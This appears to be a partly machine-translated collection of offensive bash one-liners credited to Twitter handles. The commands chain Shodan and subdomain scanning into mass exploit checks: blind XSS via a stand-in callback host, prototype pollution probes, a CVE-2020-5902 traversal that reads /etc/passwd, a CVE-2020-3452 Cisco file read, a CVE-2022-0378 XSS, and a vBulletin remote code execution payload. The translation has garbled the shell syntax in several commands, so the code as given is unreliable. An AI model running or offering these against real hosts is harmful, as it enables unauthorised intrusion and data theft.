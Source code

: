>@fanimalikhack

```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

>@oliverrickfors

```bash
cat HOSTS.txt | getJS | httpx --match-regex “addEventListener\((?:'|\")message(?:'|\")”
```

### 原型污染
> @R0X4R

```bash
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"?“[VULNERABLE]”:“[NOT VULNERABLE]”' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

CVE-2020-5902
>@Madrobot_

```bash
shodan 搜索 http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | 读取主机时执行；执行 curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

CVE-2020-3452
>@vict0ni

```bash
读取 LINE 时；执行 curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"；完成 < HOSTS.txt
```

### CVE-2022-0378
>@7h3h4ckv157

```bash
cat URLS.txt | 当读取 h 时执行；执行 curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"；完成
```

### vBulletin 5.6.2 - ‘widget_tabbedContainer_tab_panel’ 远程代码执行
>@Madrobot_

```bash
shodan 搜索 http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
